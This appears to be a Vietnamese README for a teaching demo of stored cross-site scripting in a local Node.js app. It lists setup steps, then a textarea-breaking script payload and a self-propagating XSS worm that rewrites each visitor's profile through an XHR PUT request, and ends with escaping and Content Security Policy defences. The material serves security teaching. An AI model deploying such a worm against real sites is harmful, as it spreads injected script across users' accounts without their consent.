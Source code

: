# Cross-site scripting

Bản trình diễn demo xss

## Cài đặt

Clone dự án về máy của bạn rồi thực hiện chạy dòng lệnh:

```npm
npm install
npm run dev
```

Mở trình duyệt, truy cập vào đường dẫn localhost:8080, truy cập vào một số tài khoản như admin hay joshoangtien, mật khẩu mặc định là 123. Bạn có thể thêm hoặc chỉnh sửa người dùng tại [database/usersData.json](database/usersData.json), trong dự án này mình không sử dụng chức năng đăng ký hay thay đổi mật khẩu vì nó không cần thiết.

Sau khi đăng nhập, bạn có thể thêm tin nhắn mới, chỉnh sửa hồ sơ của mình hoặc xem hồ sơ của người dùng khác bằng cách nhấp vào tên của họ (nơi mình sẽ đặt nội dung XSS).

## Cách hoạt động XSS

Login -> Edit user -> Đặt đoạn mã bên dưới "Introduction" và "Done". Nó sẽ hiển thị cảnh báo khi người dùng truy cập vào hồ sơ của bạn, bạn có thể tùy biến các kiểu tấn công khác không chỉ việc hiển thị cảnh báo kia, ngoài ra bạn có thể chèn mã tấn công vào tin nhắn, đoạn tấn công sẽ thực thi khi có người truy cập vào tin nhắn.

```html
</textarea> <script>alert("hehe");</script>
<!-- Đặt </textarea> ngay trước đoạn script để kết thúc thẻ </textarea>, bạn có thể kiểm tra bằng cách F12. -->
```

Đoạn mã dưới đây thực thi hiển thị cảnh báo khi người dùng truy cập vào hồ sơ của bạn, nhưng nó cũng sao chép toàn bộ script vào "Introduction" của người dùng đấy (Tấn công lây lan).\
Hiện chức năng chưa hoạt động với tin nhắn.

```html
</textarea> 
<script id="worm">
    alert("hehe");  // Hiển thị cảnh báo

    // ----- Đoạn mã self-propagating -----
    var headerTag = '<script id="worm">';
    var ownCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; // tách thẻ để ngăn ngừa script kết thúc
    var wormCode = "</textarea>" + headerTag + ownCode + tailTag;
    window.onload = function () {
        var updatedUser = {
            introduction: wormCode
        };

        var xhr = new XMLHttpRequest();
        xhr.open("PUT", "/editUser", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(updatedUser));
    };
    // ----- Đoạn mã self-propagating -----
</script>
```

***XHR là gì?***: Sử dụng developer tool (bật Preserve log) để xem yêu cầu được gửi đi khi nhấn nút "Done" trong trang editUser. Bạn sẽ thấy một request "editUser" được gửi đến, nếu nó bị hủy, bạn chuột phải vào và Copy -> Copy as fetch và Paste nó vào đâu đấy để kiểm tra. Phương thức là PUT và nội dung bao gồm {"introduction":"..."}, vì vậy mình sẽ tạo XHR tương tự để gửi tới server. Điều hiển nhiên là mình sẽ thấy nội dung trên server, nhưng với góc độ của hacker (người không nắm giữ mã nguồn) thì lại có thể thấy.

## Phòng ngừa

### **Đóng nội dung động**

Truy cập [controllers/userController.js line 40](controllers/userController.js#L40)  (editUser PUT request):

```javascript
var newIntroduction = req.body.introduction;
// newIntroduction = newIntroduction.replace(/&/g, "&amp;");
// newIntroduction = newIntroduction.replace(/</g, "&lt;");
// newIntroduction = newIntroduction.replace(/>/g, "&gt;");
// newIntroduction = newIntroduction.replace(/"/g, "&quot;");
// newIntroduction = newIntroduction.replace(/'/g, "&#039;");
```

Comment lại 5 dòng code, nó sẽ loại bỏ {&, <, >, ", '} cho tới việc mã hóa {&amp, &lt, &gt, &quot, &#039} trong nội dung đã nhận. Bằng cách này, mọi cách thức tấn công script sẽ bị vô hiệu hóa.

### **Content Security Policy**

[Content Securiy Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) là giải pháp tiêu chuẩn cho nhiều vấn đề bảo mật web. Nó hạn chế những gì có thể được thực thi, được thực hiện trong một trang web để các mã độc hại gặp khó khăn hơn trong việc thực hiện bất cứ điều gì.

Truy cập [controllers/userController.js line 17](controllers/userController.js#L17) và [line 68](controllers/userController.js#L68):

```javascript
res.writeHead(200, {
    "Content-Type": "text/html",
    //"Content-security-policy": "default-src 'self'",
});
```

Comment dòng Content-securiy-policy, để ngăn Content Securiy Policy trước khi request header.

Hoặc truy cập [resources/editUser.html line 9](resources/editUser.html#L9) và [resources/viewUser.html line 9](resources/viewUser.html#L9):

```html
<!-- <meta http-equiv="Content-Security-Policy" content="default-src 'self'"> -->
```

Comment dòng meta

Trùy chọn CSP là:

```CSP
Content-security-policy: default-src 'self'
```

[`default-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) có nghĩa là với mọi `src` khi khôn xuất hiện,nó sẽ sử dụng mặc định giá trị này [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)).\
[`self`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/Sources#sources) có nghĩa là các trang web chỉ có thể sử dụng các tài nguyên đến từ máy chủ của chính nó.

## Reference

Web Security for Developers: Real Threats, Practical Defense\
<https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/>
